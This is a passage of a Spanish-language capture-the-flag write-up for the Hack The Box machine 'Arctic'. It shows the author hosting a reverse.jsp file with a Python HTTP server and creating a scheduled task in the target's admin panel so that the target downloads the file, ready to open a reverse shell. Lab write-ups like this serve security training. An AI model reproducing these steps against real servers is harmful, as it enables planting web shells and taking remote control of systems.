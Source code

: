 Realizamos el `submit`


Lo siguiente sera compartirnos el archivo `reverse.jsp` en nuestro equipo, lo haremos con `python`

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
Una vez la tarea haya sido creada, para correrla debemos darle al primer boton en verde en la parte de `actions`

![](/assets/images/HTB/htb-writeup-Arctic/arc11.PNG)

y vemos que recibo la petición en mi maquina

```bash
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.11 - - [11/Apr/2023 17:15:00] "GET /reverse.jsp HTTP/1.1" 200 -
```

Recargamos la ruta en la que teniamos acceso a listar los recursos y genial vemos el `reverse.jsp`

![](/assets/images/HTB/htb-writeup-Arctic/arc12.PNG)
